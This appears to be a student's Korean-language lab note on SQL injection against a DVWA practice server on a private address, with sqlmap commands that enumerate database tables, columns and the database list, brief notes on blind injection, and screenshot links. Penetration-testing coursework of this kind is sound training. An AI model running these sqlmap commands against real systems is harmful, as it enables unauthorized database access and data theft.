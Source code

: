 ![[Pasted image 20241008141157.png]]

`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=medium" -u http://192.168.56.120/vulnerabilities/sqli/ --data "id=1&Submit=Submit" -p id -D information_schema --tables`
![[Pasted image 20241008141855.png]]

`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=medium" -u http://192.168.56.120/vulnerabilities/sqli/ --data "id=1&Submit=Submit" -p id -D information_schema -T tables --col`
![[Pasted image 20241008142128.png]]

# Blind
![[Pasted image 20241008141423.png]]
![[Pasted image 20241008141445.png]]
- 문법에 대한 오류가 표시되지 않는다.
- 경우의 수를 전부 넣어 봐야 한다.


zap 에서 취약한 파라미터를 찾고 sqlmap을 활용해 sql injection (과제)
`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=low" -u "http://192.168.56.120/vulnerabilities/sqli_blind/?id=1&Submit=Submit" -p id --dbs`
취약점 리스트
![[Pasted image 20241008144850.png]]

데이터베이스 리스트
![[Pasted image 20241008144906.png]]
